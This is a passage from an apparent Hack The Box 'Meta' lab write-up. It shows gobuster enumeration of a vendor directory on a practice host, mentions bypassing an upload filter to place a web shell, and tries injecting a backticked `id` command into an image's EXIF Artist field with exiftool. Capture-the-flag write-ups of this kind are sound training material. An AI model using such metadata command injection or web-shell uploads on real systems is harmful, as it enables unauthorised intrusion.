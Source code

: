 ```bash
/vendor               (Status: 301) [Size: 249] [--> http://dev01.artcorp.htb/metaview/vendor/]

gobuster dir -u "http://dev01.artcorp.htb/metaview/vendor" --wordlist=/usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-words.txt -t 30 -x php,html,txt -a "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36"
===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://dev01.artcorp.htb/metaview/vendor
[+] Method:                  GET
[+] Threads:                 30
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-words.txt
[+] Negative Status codes:   404
[+] User Agent:              Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
2022/11/02 17:55:58 Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 199]
/.htm.htm.html        (Status: 403) [Size: 199]
/autoload.php         (Status: 200) [Size: 0]
/.hta                 (Status: 403) [Size: 199]
/composer             (Status: 301) [Size: 258] [--> http://dev01.artcorp.htb/metaview/vendor/composer/]
/LICENSE              (Status: 301) [Size: 2919] [--> http://dev01.artcorp.htb/metaview/vendor/composer/LICENSE]


```

We have an uploads folder, but the files I uploaded doesn't show on that folder... If so we could try to bypass the filter an upload a WebShell.

First try with injections didn't work out. I tried to place a command within the Artist metadata:

```bash
kali@kali:~/Desktop/HackTheBox/Meta$ exiftool -artist=\`id\` test.png
    1 image files updated
                                                                                                                                                                                             
kali@kali:~/Desktop/HackTheBox/Meta$ exiftool test.png               
ExifTool Version Number         : 12.44
File Name                       : test.png
Directory                       : .
File Size                       : 643 bytes
File Modification Date/Time     : 2022:11:02 13:36:51-04:00
File Access Date/Time           : 2022:11:02 13:36:51-04:00
File Inode Change Date/Time     : 2022:11:02 13:36:51-04:00
File Permissions                : -rw-r--r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 36
Image Height                    : 26
Bit Depth                       : 8
Color Type                      : RGB
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Significant Bits                : 8 8 8
Artist                          : `id`
```